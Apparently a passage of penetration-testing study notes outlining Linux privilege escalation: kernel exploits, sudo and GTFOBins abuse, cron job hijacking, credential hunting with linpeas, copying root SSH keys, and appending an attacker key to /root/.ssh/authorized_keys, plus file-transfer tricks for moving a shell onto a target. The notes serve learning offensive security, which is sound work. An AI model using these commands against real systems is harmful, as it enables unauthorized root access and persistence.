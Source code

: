   - Kernel Exploits
    - Best for old operating systems (especially if not maintained)
    - We can *searchsploit* the version in order to find a CVE
    - **Be careful to run kernel exploits on production systems**
  - Vulnerable Software
    - Software may be vulnerable, so we should determine installed software via *dpkg -l*, and search for public exploits in this software (especially for older systems)
  - User Privileges
    - We can exploit a user’s privileges (especially if they have higher than necessary)
      - sudo
        - sudo -l
          - This tells us what access we have when using sudo
            - If we see the following:
              - sudo -l
              - (user : user) NOPASSWD: /bin/echo
              - You can run
              - sudo -u user /bin/echo
          - GTFOBins contains exploits for many commands which can be exploited via sudo
          - LOLBAS may also be helpful
      - SUID
      - Windows Token Privileges
  - Scheduled Tasks
    - We can exploit scheduled tasks by
      - Add new scheduled task / cron job
      - Trick them to execute malicious software
    - If we have write creds on the following we can do the above:
      - /etc/crontab
      - /etc/cron.d
      - /var/spool/cron/crontabs/root
  - Exposed Credentials
    - Common in configuration (bash\_history/PSReadLine) and log files
    - Credentials made be found using scripts
      - ./linpeas.sh
    - You can sign in via > su -
  - SSH Keys
    - If we have read access over .ssh dir, we can view the id\_rsa and similar kes
      - Found in /home/user/.ssh or /root/.ssh
      - We can copy it to our machine, and then log in via -i
      - vim id\_rsa
      - chmod 600 id\_rsa
      - ssh root@<target> -i id\_rsa
    - We can also place our public key in the user’s .ssh
      - ssh-keygen -f key
      - This gives us 2 files. key and key.pub
      - We can add key.pub to authorized keys:
        - /.ssh/authorized\_keys
      - We can use the following to do all of this at once
        - echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized\_keys
        - We should now be able to log in via our key
        - ssh root@<target> -i key
- Transferring Files
  - Purpose: We often need to move files from a local machine to a remote machine (such as scripts)
  - Using wget
    - cd /filepath (or other dir)
    - python3 -m http.server 8000
    - wget http://<target>:8000/file or > curl http://<target>/file -o file
  - Using scp
    - If we have ssh credentials, we can use scp
      - scp file user@remotehost:/filepath/file
  - Using Base64
    - Fun trick if we are not able to do any of the above
    - We can encode the file in base64, and then decode it on the server
      - base64 shell -w 0
    - Then decode